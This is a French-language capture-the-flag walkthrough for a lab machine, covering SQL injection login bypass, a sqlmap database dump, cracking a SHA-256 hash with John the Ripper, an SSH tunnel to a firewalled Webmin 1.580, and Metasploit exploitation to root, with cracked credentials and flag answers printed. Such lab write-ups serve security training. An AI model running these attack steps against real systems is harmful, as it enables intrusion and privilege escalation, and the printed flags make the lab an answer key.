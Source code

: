 *Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!*

[IP_VPN] : 10.18.94.166
[IP_Machine] : 10.10.69.255


<details>
<summary>Task 1 : Deploy the vulnerable machine </summary>
<br>
## What is the name of the large cartoon avatar holding a sniper on the forum?
Télécharger l'image principale. 

la charger sur google et la réponse s'affiche 

** Agent 47 ** 

</details>

<details>
<summary>Task 2 : Obtain access via SQLI</summary>
<br>
## When you've logged in, what page do you get redirected to?

Login : ' or 1=1 # 
redirection : http://10.10.69.255/portal.php

** portal.php **

</details>

<details>
<summary>Task 3 : Using SQLMap</summary>
<br>
## In the users table, what is the hashed password?
Lancer burp, faire une recherche simple 

Enregistrer la requête dans un fichier 

lancer sqlmap avec la commande suivante : 
``` sqlmap -r request.txt --dbms=mysql --dump ```

-r Permet de récupérer la requête sauvegardée en amont
--dbms Permet de décrire le type de BDD utilisée 
--dump permet de dumper entièrement les données de la BDD

``` Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

```

** ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 **

## What was the username associated with the hashed password?

** agent47 **

## What was the other table name?

```
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

```

** post ** 

</details>

<details>
<summary>Task 4 : Cracking a password with JohnTheRipper</summary>
<br>

## What is the de-hashed password?

Enregistrer le mot de passe dans un fichier 
``` echo 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' > agent47.txt ```

Trouver le format du hach pour john | pour hashcat 
``` hashid -j agent47.txt ```
ou 
``` hashid -m agent47.txt ```

Utiliser JohnTheRipper pour trouver le mot de passe :
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha256 agent47.txt 

videogamer124    (?)
```
** videogamer124 ** 

## What is the user flag?

Maintenant qu'on a l'username et le mot de passe, se connecter en SSH 
``` 
ssh agent47@10.10.69.255

password : 

 ```
Afficher l'interrieur du dossier 
``` 
ls

user.txt
```
Afficher le fichier user.txt
``` 
cat user.txt

649ac17b1480ac13ef1e4fa579dac95c 
```
   
** 649ac17b1480ac13ef1e4fa579dac95c ** 

</details>

<details>
<summary>Task 5 : Exposing services with reserse SSH tunnels</summary>
<br>

## How many TCP sockets are running?

Exécuter la commande "ss -tulpn", pour savoir quelles socket connexions sont en cours d'exécution.

-t 	Afficher TCP les sockets
-u 	Afficher UDP les sockets
-l 	Affiche uniquement les prises d'écoute
-p 	Montre le processus utilisant le socket
-n 	Ne résout pas les noms de services 

```
ss -tulpn

Netid  State      Recv-Q Send-Q          Local Address:Port                         Peer Address:Port              
udp    UNCONN     0      0                           *:10000                                   *:*                  
udp    UNCONN     0      0                           *:68                                      *:*                  
tcp    LISTEN     0      128                         *:22                                      *:*                  
tcp    LISTEN     0      80                  127.0.0.1:3306                                    *:*                  
tcp    LISTEN     0      128                         *:10000                                   *:*                  
tcp    LISTEN     0      128                        :::22                                     :::*                  
tcp    LISTEN     0      128                        :::80                                     :::*   
```
Il y a donc ** 5 ** socket TCP en cours d'éxecution

## What is the name of the exposed CMS?

Le service qui tourne sur le port 10000 est bloqué par une règle de firewall depuis l'extérieur. On va donc utilsier un tunnel ssh pour accéder à ce service 

Ouvrir un nouveau terminal et se connecter en ssh sur le compte agent47 avec avec un tunnel d'accès sur le port 10000 : 

``` ssh -L 10000:localhost:10000 agent47@10.10.69.255 ```

Ouvrir un navigateur pour ensuite se connecter sur le service :

``` localhost:10000 ```

Le nom du CMS est affiché :
** webmin ** 

## What is the CMS version?

Se connecter avec les creds trouvés 
Username : agent47
Password : videogamer124

La version est affiché parmis les informations : 

** Webmin version 	1.580 ** 
</details>

<details>
<summary>Task 6 : Privilage Escalation with Metasploit</summary>
<br>
Ouvrir metasploit 
``` 
msfconsole 

search Webmin 1.580 
```

Comme il n'y a que 2 exploits dont 1 vérifié, on va prendre celui la : 

``` use 0 ```

On va modifier les options : 

``` 
set password videogamer124 
set username agent47
set LHOST localhost
set ssl false 
show payloads 
set payload 5 
set lhost tun0

```
Lancer la commande, et une session sera ouverte (Attention, le shell est pourri donc on ne voit pas qu'il est lancé) 

Se rendre sur le dossier /root et ouvrir le fichier root.txt

``` 
cat /root/root.txt

a4b945830144bdd71908d12d902adeee
```
** a4b945830144bdd71908d12d902adeee ** 
  

</details>








